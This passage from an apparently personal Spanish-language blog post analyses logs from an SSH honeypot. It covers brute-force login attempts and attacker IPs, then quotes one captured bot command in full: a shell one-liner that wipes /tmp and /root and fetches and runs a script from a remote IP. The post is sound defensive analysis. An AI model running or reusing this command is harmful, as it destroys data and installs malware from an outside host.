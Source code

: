 En el hilo de Reddit lo que sugiere es un simple ataque de fuerza bruta mal configurado. Este tipo de contraseñas complejas es común en intentos automatizados de bots para adivinar combinaciones de acceso. También se observó que algunos intentos utilizaban claves públicas aleatorias, lo cual es raro, ya que un servidor SSH mal asegurado podría aceptarlas. Puedes leer más en el [post original](https://www.reddit.com/r/selfhosted/comments/1dgf01t/24_hours_of_running_an_ssh_honeypot/?tl=es-es).
 
## Volviendo a los logs...
---

Busqué en Internet si estas IPs ya habían sido reportadas anteriormente, y efectivamente, varias de ellas ya estaban marcadas como maliciosas.


![](/assets/images/ssh_expuesto/ip_mala.png)


Ahora bien, lo interesante: ¿Qué tratan de hacer estos bots cuando logran acceder al honeypot? Para averiguarlo, decidí analizar los logs de actividad y aplicar el siguiente comando:
```cat fake_ssh | jq | grep "command"``` el resultado fue el siguiente: 

![](/assets/images/ssh_expuesto/ataques_de_malwere.png)


Bien, esto es mucho, así que voy a ir un poco por partes. ¿Qué están tratando de hacer estos bots? Un claro ejemplo es el siguiente comando que encontré en los logs de actividad:

```bash
cd /tmp;rm -rf /tmp/* || cd /var/run || cd /mnt || cd /root;rm -rf /root/* || cd /; wget http://37.44.238.92/bins.sh; curl -O http://37.44.238.92/bins.sh;/bin/busybox wget http://37.44.238.92/bins.sh; chmod 777 bins.sh; ./bins.sh; sh bins.sh; rm bins.sh
```
